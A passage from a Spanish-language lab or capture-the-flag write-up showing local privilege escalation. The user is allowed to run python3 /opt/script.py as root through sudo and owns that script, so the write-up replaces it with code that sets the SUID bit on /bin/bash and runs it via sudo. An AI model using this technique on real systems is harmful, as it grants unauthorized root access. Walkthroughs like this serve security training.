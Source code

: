 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for pinguinito on c5b862b2d8af:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on c5b862b2d8af:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Vemos que podemos ejecutar el binario `python3` en el directorio `/opt/script.py` como el usuario `root`.

Si vemos lo que hace el `script`:

```python
import shutil

def copiar_archivo(origen, destino):
    shutil.copy(origen, destino)
    print(f'Archivo copiado de {origen} a {destino}')

if __name__ == '__main__':
    origen = '/opt/script.py'
    destino = '/tmp/script_backup.py'
    copiar_archivo(origen, destino)
```

Si vemos los permisos del script:

```shell
ls -la /opt/script.py
```

Info:

```
-r-xr--r-- 1 pinguinito root 272 May 11  2024 /opt/script.py
```

Vemos que somos el propietario del script, por lo que podremos hacer lo siguiente:

```shell
rm /opt/script.py
```

Una vez que lo hayamos eliminado, crearemos el script con el mismo nombre pero añadiendo lo siguiente:

```shell
echo -e "import os\n\nos.system('chmod u+s /bin/bash')\nprint('Permisos SUID aplicados a /bin/bash')" > /opt/script.py
```

Ahora hacemos lo siguiente:

```shell
sudo /usr/bin/python3 /opt/script.py
```
